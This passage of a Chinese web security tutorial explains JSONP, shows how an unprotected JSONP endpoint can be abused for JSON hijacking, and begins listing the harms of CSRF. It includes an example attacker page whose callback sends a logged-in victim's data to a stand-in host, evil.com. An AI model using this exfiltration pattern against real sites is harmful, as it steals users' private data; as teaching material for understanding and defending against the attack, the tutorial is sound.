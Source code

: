 一句话描述JSONP：前端定义函数却在后端完成调用然后回到前端执行！

明白了JSONP的调用过程之后，我们可以想象这样的场景：

当用户通过身份认证之后，前端会通过JSONP的方式从服务端获取该用户的隐私数据，然后在前端进行一些处理，如个性化显示等等。这个JSONP的调用接口如果没有做相应的防护，就容易受到JSON HiJacking的攻击。

就以上面讲JSONP的情景为例，攻击者可以构造以下html页面：

```
<html>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type" /> 
<script type="text/javascript"> 
    function hijack(result) { 
        var data = '';
        for(var i in result) {
            data += i + ':' + result[i];
        }
        new Image().src = "http://www.evil.com/JSONHiJacking.php?data=" + escape(data);//把数据发送到攻击者服务器上
    } 
</script> 
<script type="text/javascript" src="http://crossdomain.com/services.php?callback=hijack"></script>
</html>

```

可以看到，攻击者在页面中构造了自己的回调函数，把获取的数据都发送到了自己的服务器上。如果受害者在已经经过身份认证的情况下访问了攻击者构造的页面，其隐私将暴露无疑。

我们用以下几张图来总结一下JSON HiJacking的攻击过程：

![](http://drops.javaweb.org/uploads/images/c67d7e70a48a704e1a958943eb9db0c7c192e727.jpg)

![](http://drops.javaweb.org/uploads/images/286b0b5392565d3b6810b0208c4ef4a6a6c9bf34.jpg)

![](http://drops.javaweb.org/uploads/images/b91d8f1a99285a50dafea6fc85211df68fc8ea69.jpg)

![](http://drops.javaweb.org/uploads/images/2c0c8863e9707edb74a27a949aaa2618b494074a.jpg)

（图片来源：[http://haacked.com/archive/2009/06/25/json-hijacking.aspx/](http://haacked.com/archive/2009/06/25/json-hijacking.aspx/)）

0x04 CSRF的危害
============

* * *

前面说了CSRF的基本概念，列举了几个CSRF的攻击场景，讲述了几种CSRF的攻击方法，现在我们来简单总结一下CSRF攻击可能造成的危害。

CSRF能做的事情大概如下：

1）篡改目标网站上的用户数据；  
2）盗取用户隐私数据；  
3）作为其他攻击向量的辅助攻击手法；  
4）传播CSRF蠕虫。

其中前两点我们在之前的例子中已经做了比较详细的说明，不再赘述。第三点即将其他攻击方法与CSRF进行结合进行攻击，接下来我们以实际的漏洞实例来说明CSRF的第三个危害。
